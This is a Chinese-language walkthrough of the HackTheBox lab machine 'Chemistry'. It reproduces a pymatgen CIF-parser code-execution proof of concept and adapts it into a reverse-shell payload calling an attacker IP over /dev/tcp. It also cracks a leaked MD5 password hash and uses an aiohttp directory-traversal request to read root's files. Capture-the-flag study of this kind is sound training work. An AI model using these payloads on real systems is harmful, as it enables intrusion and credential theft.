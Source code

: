 ```yaml
---
title: "HTB-Chemistry"
date: 2024-12-17
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap Chemistry.htb -sS -Pn -T4 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:11 CST
Nmap scan report for Chemistry.htb (10.10.11.38)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```

开放端口：`22`、`5000`

进入`http://chemistry.htb:5000/`

![](./images/image-97.png)

可以进行CIF晶体学信息文件(`Crystallographic Information File`)文件上传

给出的示例文件内容是这样的

```
[root@kali] /home/kali/Downloads  
❯ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_b    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

## CVE-2024-23346

经过`Google`搜寻这个`CIF`文件相关的`CVE`，我找到了这个👇

- [Critical Security Flaw in Pymatgen Library (CVE-2024-23346) - vsociety (vicarius.io)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)

- [Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation\_string · Advisory · materialsproject/pymatgen (github.com)](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

在Github里给出的Poc原型是这样的

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

有效载荷就是下面的`_space_group_magn`那一段，因此仿照这个`Poc`构造一个反弹`shell`（注意单引号的转义，因为最外面是有一层单引号包裹的）

```
[root@kali] /home/kali/Downloads  
❯ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.xx.xx/100 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

设置监听，上传之后点击`View`查看，可以看到成功反弹到`Shell`

![](./images/image-98.png)

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

在`instance`目录下发现一个数据库文件

![](./images/image-99.png)

可以开启一个httpserver的服务将其下载下来

![](./images/image-100.png)

我在`/home`目录下发现了另一个用户：`rosa`，并且`database.db`中也存在他的密码`hash`，因此可以使用`John The Ripper`进行爆破密码

```
[root@kali] /home/kali/Chemistry  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5                                             ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorniosrosados (?)     
1g 0:00:00:00 DONE (2024-12-17 20:57) 1.265g/s 3774Kp/s 3774Kc/s 3774KC/s uniden206..unicornios2805
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

得到用户密码

```
username：rosa
password：unicorniosrosados
```

`SSH`直接登录获取到`User.txt`

![](./images/image-101.png)

## ReadAnyFiles

上传linpeas，发现存在开放的内网端口

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                               
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      7928/bash                                                                   
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      - 
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      - 
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```

将`8080`端口代理出来，我这里是代理到了本地的`8000`端口，因为`8080`端口是`Bursuite`的默认使用端口

![](./images/image-102.png)

```
Server：Python/3.9 aiohttp/3.9.1
```

这是一个利用的点，搜索`aiohttp`的相关版本漏洞

- [CVE-2024-23334: A Deep Dive into aiohttp's Directory Traversal Vulnerability (ethicalhacking.uk)](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0)

找到一个目录穿越的漏洞，不过这里有一个坑，因为所有的`poc`都是基于`/static`目录进行穿越的，而这里的内网端口上没有这个目录

![](./images/image-103.png)

存在`/assets`目录，我们可以基于这个目录来进行目录穿越

根据上面文章里的测试一下，读取成功

![](./images/image-104.png)

这里我本来想读取密码`Hash`然后爆破一下`root`的密码的，但是好像爆不出来😂，直接读取`flag`吧

```
[root@kali] /home/kali/Chemistry  
❯ curl -s --path-as-is "http://127.0.0.1:8000/assets/../../../../../root/root.txt"    
```

![](./images/image-105.png)

## Summary

`User`：就是简单的文件上传`CVE`反弹`Shell`，然后数据库信息泄露，爆破用户密码进行`ssh`登录。

`Root`：`Webserver`的版本漏洞，可以造成任意文件读取，不过有前提是必须要踏板目录存在，比如说这个`Machine`中不存在其他`Poc`中的`/static`，所以需要借助`/assets`目录来进行穿越。假如没有任何可访问目录的话，应该也就无法复现这个`CVE`了。也可以直接通过读取**ssh**密钥后进行**root**登录。
